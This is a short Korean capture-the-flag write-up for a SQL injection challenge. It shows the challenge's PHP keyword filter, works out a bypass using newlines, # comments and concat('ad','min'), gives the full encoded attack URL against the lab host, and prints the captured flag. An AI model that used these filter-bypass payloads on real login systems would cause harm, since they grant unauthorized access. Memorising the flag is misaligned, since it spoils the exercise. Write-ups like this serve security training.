

## SQLi-2

```php
if(preg_match("/or|union|admin|\\||\\&|\\d|-|\\\\|\\x09|\\x0b|\\x0c|\\x0d|\\x20|\\//",$t)) die('no hack..');
```

필터링이 추가 되었음을 볼 수 있었다.

%20과 %23이 필터링 되지 않으므로 개행과 #을 사용가능하다

```php
WHERE userid='a'='a'#
and#
userid=concat('ad','min')#
```

이와 같이 sql 구문을 만들게 되면 `WHERE userid='a'='a' and userid='admin’` 이러한 구문이 되어 userid=admin으로 쉽게 로그인 가능하다

```php
http://edu.arang.kr:9202/?userid=a%27=%27a%27%23%0aand%23%0auserid=concat(%27ad%27,%27min%27)%23&userpw=a
```

이와 같이 url을 날려주면 위와 같이 sql이 동작하므로 flag를 획득 할 수 있다.



flag{b715e24914d597b86ce5}
